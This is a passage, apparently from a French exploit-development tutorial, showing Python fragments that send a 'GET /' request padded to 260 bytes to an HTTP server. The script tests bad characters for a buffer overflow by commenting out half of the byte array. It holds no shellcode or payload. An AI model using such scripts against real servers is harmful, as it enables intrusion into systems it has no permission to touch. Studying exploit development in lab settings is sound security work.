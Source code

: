 ```py
    b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
    b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
    b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
    b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
    b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
    b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

  httpMethod = b"GET /"
  inputBuffer = badchars
  inputBuffer += b"\x41" * (size - len(inputBuffer))
  httpEndRequest = b"\r\n\r\n"
```

Si on lance tel quel le programme ne crash pas, indiquant la présence d'un mauvais caractère. On commente la première moitié des caractères pour identifier où se trouve le caractère problématique.

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 260

  badchars = (
#    b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
#    b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
#    b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
#    b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
#    b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
#    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
#    b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
#    b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
#    b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
#    b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"             # 2em moitie
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

  httpMethod = b"GET /"
  inputBuffer = badchars
  inputBuffer += b"\x41" * (size - len(inputBuffer))
  httpEndRequest = b"\r\n\r\n"
```